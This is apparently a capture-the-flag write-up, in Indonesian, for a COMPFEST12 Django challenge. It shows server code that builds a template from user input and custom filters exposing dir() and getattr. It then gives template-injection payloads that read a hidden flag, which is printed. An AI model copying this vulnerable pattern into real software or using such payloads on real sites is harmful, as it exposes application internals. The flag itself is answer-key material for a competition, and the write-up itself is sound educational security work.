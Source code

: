 ```py    
data = request.POST.get('data', '')
a = angkabukan(''.join(data.split()[1:-1]))
...
template = Template(TEMP.format( "{%raw%}{{ " + data.split()[1].replace('mammals', 'mammals|safe').replace('pisces', 'pisces|safe').replace('amfibi', 'amfibi|safe') + "|safe }}{%endraw%}" + a))
```

Didapatkan juga fungsi-fungsi yang mempermudah untuk mendapatkan flag, yaitu error pada `/code/myapp/templatetags/myfilters.py`.

```py
@register.filter(name='ambildong')
def ambildong(a, b):
    return getattr(a, b)
@register.filter(name='angkabukan')
def angkabukan(a):
    return cobacek(a) …
@register.filter(name='isinya')
def isinya(a):
    return dir(a)
def cobacek(a):
    try:
        a = int(a)
        assert a>0,"woi masa negatif ah yang bener dong"
        assert a<4,"woi udah dibilang jangan lebih dari 3" …
        temp = ['{%raw%}{{ mammals|safe }}{%endraw%}', '{%raw%}{{ pisces|safe }}{%endraw%}','{%raw%}{{ amfibi|safe }}{%endraw%}']
        lst = sample(temp, a)
        return ''.join(lst)
    except ValueError:
        return a
    ...
```

Dengan memanfaatkan fungsi `isinya` yaitu dengan payload `{%raw%}{{ arthropods|isinya }}{%endraw%}`, akan mendapatkan list dir dari `arthropods`.

```py
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__']arthropods|isinya
```

Lalu, manfaatkan fungsi `ambildong` untuk memanggil dir dari `arthropods` yang ditemukan flag pada dir `__doc__`. Payload akhir: `{%raw%}{{ arthropods|ambildong:"__doc__" }}{%endraw%}`

```py
COMPFEST12{djan90_cu5t0m_t3mplat3_f1Lters_d0nt_forg3t_t0_set_debu9_fal5e}
arthropods|ambildong:"__doc__"
```

### Flag

`COMPFEST12{djan90_cu5t0m_t3mplat3_f1Lters_d0nt_forg3t_t0_set_debu9_fal5e}`\
<br/>
